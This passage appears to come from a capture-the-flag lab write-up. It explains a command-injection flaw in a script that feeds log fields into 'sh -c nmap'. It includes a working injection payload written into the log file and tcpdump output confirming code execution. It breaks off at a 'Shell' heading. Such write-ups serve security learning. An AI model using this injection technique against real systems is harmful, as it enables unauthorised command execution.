 The script is also injectable. Each line of the log is going to go into `cut`
to select the third and beyond objects (`-f3-`) when separated by space (`-d'
'`). Then it will `sort -u` to remove duplicates. This isolates the IP:

    
    
    kid@scriptkiddie:~/logs$ echo "[2021-05-28 12:37:32.655374] 10.10.14.15" | cut -d' ' -f3-
    10.10.14.15
    

Then for each IP, it will run:

    
    
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
    

So if I can put more than just an IP into the file where the IP should be, I
can inject commands. For example, I’ll use a payload like

    
    
    kid@scriptkiddie:~/logs$ echo "x x x 127.0.0.1; ping -c 1 10.10.14.15 #" | cut -d' ' -f3- 
    x 127.0.0.1; ping -c 1 10.10.14.15 #
    

The first two `x` are just cut out, so that payload starts after that. The
next `x` is the name of the file in `/recon`. Then I put a 127.0.0.1 so it
would have something to scan. Then there’s a `;` to start a new command, which
I’ll start with `ping`. Then a `#` to comment out the rest of the line. That
would make:

    
    
    sh -c "nmap --top-ports 10 -oN recon/x 127.0.0.1; ping -c 1 10.10.14.15 #.nmap x 127.0.0.1; ping -c 1 10.10.14.15 # 2>&1 >/dev/null" &
    

With syntax highlighting on the part inside `sh -c ""`:

    
    
    nmap --top-ports 10 -oN recon/x 127.0.0.1; ping -c 1 10.10.14.15 #.nmap x 127.0.0.1; ping -c 1 10.10.14.15 # 2>&1 >/dev/null
    

It’s clearly going to `nmap` and then `ping`.

I’ll start `tcpdump` and put that into the log:

    
    
    kid@scriptkiddie:~/logs$ echo "x x x 127.0.0.1; ping -c 1 10.10.14.15 #"  > hackers
    

Immediately there’s ICMP at `tcpdump`:

    
    
    oxdf@parrot$ sudo tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    12:50:17.736260 IP 10.10.10.226 > 10.10.14.15: ICMP echo request, id 1, seq 1, length 64
    12:50:17.736296 IP 10.10.14.15 > 10.10.10.226: ICMP echo reply, id 1, seq 1, length 64
    

#### Shell
